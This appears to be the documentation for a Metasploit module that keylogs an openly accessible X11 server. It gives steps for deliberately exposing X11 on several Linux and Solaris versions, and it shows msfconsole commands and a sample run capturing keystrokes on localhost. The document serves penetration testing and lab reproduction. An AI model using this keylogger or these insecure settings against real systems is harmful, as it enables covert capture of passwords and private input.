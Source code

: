 ## Vulnerable Application

This module binds to an open X11 host to log keystrokes. The X11 service can accept
connections from any users when misconfigured with the command `xhost +`.
This module is a close copy of the old xspy c program which has been on Kali for a long time.
The module works by connecting to the X11 session, creating a background
window, binding a keyboard to it and creating a notification alert when a key
is pressed.

One of the major limitations of xspy, and thus this module, is that it polls
at a very fast rate, faster than a key being pressed is released (especially before
the repeat delay is hit). To combat printing multiple characters for a single key
press, repeat characters arent printed when typed in a very fast manor. This is also
an imperfect keylogger in that keystrokes arent stored and forwarded but status
displayed at poll time. Keys may be repeated or missing.

### Ubuntu 10.04

1. `sudo nano /etc/gdm/gdm.schemas`
2. Find:

```
<schema>
    <key>security/DisallowTCP</key>
    <signature>b</signature>
    <default>true</default>
</schema>
```
- Change `true` to `false`

3. logout or reboot
4. Verification: `sudo netstat -antp | grep 6000`

```
tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 12.04, 14.04

1. `sudo nano /etc/lightdm/lightdm.conf`
2. Under the `[SeatDefaults]` area, add:

```
xserver-allow-tcp=true
allow-guest=true
```

3. logout or reboot
4. Verification: `sudo netstat -antp | grep 6000`

```
tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 16.04

  Use the Ubuntu 12.04 instructions, however change `SeatDefaults` to `Seat:*`

### Fedora 15

1. `vi /etc/gdm/custom.conf`
2. Under the `[security]` area, add:

```
DisallowTCP=false
```

3. logout/reboot
4. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Solaris 10

1. `svccfg -s svc:/application/x11/x11-server setprop options/tcp_listen = true`
2. `svc disable cde-login`
3. `svc enable cde-login`
4. `xhost +`

### Ubuntu 22.04

#### Server

Getting X11 to listen on a TCP port is rather taxing, so we use socat to facilitate instead.

1. `sudo apt-get install ubuntu-desktop socat` # overkill but it gets everything we need
2. `sudo reboot` # prob a good idea since so much was installed
3. `sudo xhost +` # must be done through gui, not through SSH
4. `socat -d -d TCP-LISTEN:6000,fork,bind=<IP to listen to here> UNIX-CONNECT:/tmp/.X11-unix/X0`, you may need to
use `X1` instead of `X0` depending on context.

## Verification Steps

1. Configure X11 to listen on port 6000, or use `socat` to open a socket.
1. Start msfconsole
1. Do: `use auxiliary/gather/x11_keyboard_spy`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should print keystrokes as they're pressed

## Options

### ListenerTimeout

How many seconds to keylog for.
If set to `0`, wait forever. Defaults to `600`, 10 minutes.

## Scenarios

### Ubuntu 22.04

```
[*] Processing xspy.rb for ERB directives.
resource (xspy.rb)> use auxiliary/gather/x11_keyboard_spy
resource (xspy.rb)> set verbose true
verbose => true
resource (xspy.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/x11_keyboard_spy) > run
[*] Running module against 127.0.0.1

[*] 127.0.0.1:6000 - Establishing TCP Connection
[*] 127.0.0.1:6000 - (1/9) Establishing X11 connection
[-] 127.0.0.1:6000 - Connection packet malfored (size: 8192), attempting to get read more data
[+] 127.0.0.1:6000 - Successly established X11 connection
[*] 127.0.0.1:6000 - Version: 11.0
[*] 127.0.0.1:6000 - Screen Resolution: 958x832
[*] 127.0.0.1:6000 - Resource ID: 33554432
[*] 127.0.0.1:6000 - Screen root: 1320
[*] 127.0.0.1:6000 - (2/9) Checking on BIG-REQUESTS extension
[+] 127.0.0.1:6000 -   Extension BIG-REQUESTS is present with id 134
[*] 127.0.0.1:6000 - (3/9) Enabling BIG-REQUESTS
[*] 127.0.0.1:6000 - (4/9) Creating new graphical context
[*] 127.0.0.1:6000 - (5/9) Checking on XKEYBOARD extension
[+] 127.0.0.1:6000 -   Extension XKEYBOARD is present with id 136
[*] 127.0.0.1:6000 - (6/9) Enabling XKEYBOARD
[*] 127.0.0.1:6000 - (7/9) Requesting XKEYBOARD map
[*] 127.0.0.1:6000 - (8/9) Enabling notification on keyboard and map
[*] 127.0.0.1:6000 - (9/9) Creating local keyboard map
[+] 127.0.0.1:6000 - All setup, watching for keystrokes
t
e
[space]
q
u
u
i
c
k
[space]
r
o
w
n
[space]
f
o
x
m
p
s
[space]
o
v
e
e
r
r
[space]
t
h
e
[space]
l
a
z
y
[space]
d
o
^C[*] 127.0.0.1:6000 - Closing X11 connection
[+] 127.0.0.1:6000 - Logged keys stored to: /root/.msf4/loot/20240226150211_default_127.0.0.1_x11.keylogger_839830.txt
[-] 127.0.0.1:6000 - Stopping running against current target...
[*] 127.0.0.1:6000 - Control-C again to force quit all targets.
[*] Auxiliary module execution completed
```

## Confirming

To keylog the remote host, we use a tool called [xspy](http://tools.kali.org/sniffingspoofing/xspy)

The output will be very similar to the metasploit module, but may differ. Compare the below two entries (spaces added to xspy for alignment):

```
xspy: the      quck         rown       foxumps      over         the       lazy      do
msf:  te[space]quuick[space]rown[space]foxmps[space]oveerr[space]the[space]lazy[space]do
```
